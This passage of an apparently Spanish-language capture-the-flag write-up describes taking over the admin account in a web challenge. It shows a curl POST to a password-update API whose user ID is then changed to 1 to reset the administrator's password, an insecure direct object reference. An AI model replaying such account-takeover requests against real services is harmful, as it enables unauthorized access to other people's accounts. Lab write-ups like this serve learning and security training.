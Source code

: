Buscando invocar la funcionalidad haciendo uso de `curl` se envió el uid del moderador como prueba.

```bash
curl -v http://13868188223:30914/api/users/update -X POST -H "Content-Type: application/json" -d '{"password":"123456","uid":100}' --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2NDYxMzd9Z.HRsjja_ehTEx7FxfjilkTjO3_gRsHkt_jmovFZY1OA"
```

![Respuesta de cambio con moderador](images/web/kryptos_support/password_1.png)

Habiéndo mencionado que se envía el `uid` en la petición, se decidió cambiar el varlor a 1 siendo que generalmente se reserva ese id para administradores.

![Respuesta de cambio con uid 1](images/web/kryptos_support/password_2.png)

Al haber sido satisfactorio el cambio de contraseña se puede realizar el login como admin, obteniendo de esta manera la bandera.
